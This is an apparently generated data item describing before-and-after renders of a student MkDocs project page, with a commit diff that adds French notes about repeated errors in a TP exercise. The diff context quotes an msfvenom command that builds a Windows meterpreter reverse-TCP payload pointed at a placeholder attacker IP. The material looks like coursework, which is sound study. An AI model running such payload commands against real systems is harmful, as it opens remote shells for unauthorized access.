

Before and after one commit to FlagHunter01/school, an MkDocs documentation site: the page built from docs/cfa/projet/index.md, in a window 1280 px wide and 900 px high, scrolled down 20445 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 21258 px from its top, so only the background shows below that.

Commit message:
Fin rédac TP6

```diff
--- a/docs/cfa/projet/index.md
+++ b/docs/cfa/projet/index.md
@@ -990,3 +990,7 @@
         Typically, this is probably how you will use msfvenom:
 
             $ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
+
+    D'après la documentation, notre commande contient bien les attributs nécessaires pour la définition du payload a générer.
+
+    J'ai effectué plusieurs essais mais on arrive toujours à la même sortie d'erreur.
```
